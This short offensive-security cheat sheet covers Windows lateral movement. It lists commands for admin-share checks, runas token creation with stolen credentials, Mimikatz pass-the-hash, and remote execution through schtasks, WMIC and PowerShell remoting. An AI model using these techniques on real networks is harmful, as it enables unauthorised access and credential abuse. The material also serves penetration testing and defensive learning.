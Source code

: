 # Windows Lateral Movement

**Description:** This entry describes how to use various commands for lateral movement

**Requirements:** required software

## Commands to perform lateral movement

```
dir \\host\c$
```

Check to see if your admin on another computer by listing the c$ share

```
net view \\<share>
```

Net command to check remote files

```
runas /user:Domain\(user) something.exe
```

Create a token with creds from command line

```
runas /user:Domain\(user) /netonly something.exe
```

Create a token to pass creds

```
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND
```

Pass the hash with Mimikatz

```
SCHTASKS /Run /S system /U user /P password /I /TN "taskname"
```

Run task immediately on remote system

```
wmic /node:(host) process call create <path to exe>
```

Run exe on remote computer with WMIC

```powershell
Powershell Invoke-Command -ComputerName (host) -ScriptBlock { dir c:\ }
```

WinRM(port 5985) turned off by default(turned on for administration) Run command with Windows remoting
  
## References
* none